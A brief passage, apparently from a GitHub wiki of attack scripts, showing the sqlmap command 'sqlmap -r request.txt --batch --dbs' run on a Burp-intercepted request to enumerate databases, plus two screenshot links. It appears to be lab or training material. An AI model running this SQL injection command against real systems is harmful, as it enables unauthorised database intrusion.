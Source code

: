 ```bash
sqlmap -r request.txt --batch --dbs
```
This tells SQLMap to use the exact request as intercepted by Burp.

![SQLMap 2](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/15.png?raw=true)

![SQLMap 3](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/16.png?raw=true)
